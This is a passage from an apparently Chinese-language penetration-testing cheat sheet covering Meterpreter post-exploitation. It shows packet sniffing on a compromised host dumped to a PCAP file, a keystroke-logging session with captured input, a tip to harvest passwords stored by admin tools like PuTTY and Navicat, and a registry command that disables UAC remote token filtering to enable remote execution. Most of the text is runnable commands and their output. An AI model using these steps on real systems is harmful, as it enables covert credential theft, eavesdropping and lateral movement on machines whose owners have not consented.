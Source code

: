 Sniffer Commands
================

    Command             Description
    -------             -----------
    sniffer_dump        Retrieve captured packet data to PCAP file
    sniffer_interfaces  Enumerate all sniffable network interfaces
    sniffer_release     Free captured packets on a specific interface instead of downloading them
    sniffer_start       Start packet capture on a specific interface
    sniffer_stats       View statistics of an active capture
    sniffer_stop        Stop packet capture on a specific interface

meterpreter > sniffer_interfaces

1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
2 - 'Intel(R) PRO/1000 MT Network Connection' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
3 - 'Intel(R) PRO/1000 MT Network Connection' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
4 - 'Intel(R) PRO/1000 MT Network Connection' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
5 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )

meterpreter > sniffer_start 5
[*] Capture started on interface 5 (50000 packet buffer)
meterpreter > sniffer_dump 5 /tmp/1.pcap
[*] Flushing packet capture buffer for interface 5...
[*] Flushed 2540 packets (1450560 bytes)
[*] Downloaded 036% (524288/1450560)...
[*] Downloaded 072% (1048576/1450560)...
[*] Downloaded 100% (1450560/1450560)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to /tmp/1.pcap
meterpreter > sniffer_stop 5
[*] Capture stopped on interface 5
[*] There are 29 packets (2263 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
```

### 键盘记录
---
Msf键盘记录在win不会创建新进程
```
meterpreter > keyscan_start 
Starting the keystroke sniffer ...
meterpreter > keyscan_dump 
Dumping captured keystrokes...
jamd<CR>
meterpreter > keyscan_stop 
Stopping the keystroke sniffer...
```
Keylogger(tip:可以把管理工具，如navicat,putty,SecureCRT,PLSQL设置记住密码)
ixkeylog,linux>=2.63 --redrain推荐

## 远程命令执行
---

at\schtasks\psexec\wmic\sc\ps

window 在工作组内用非 Administrator (SID!=500)其他管理员建立远程连接( wmi, ipc$ )，因为UAC限制，权限不是管理权限，可以改 LocalAccountTokenFilterPolicy  = 1

	reg add  HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system 
	/v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

### ipc$
```
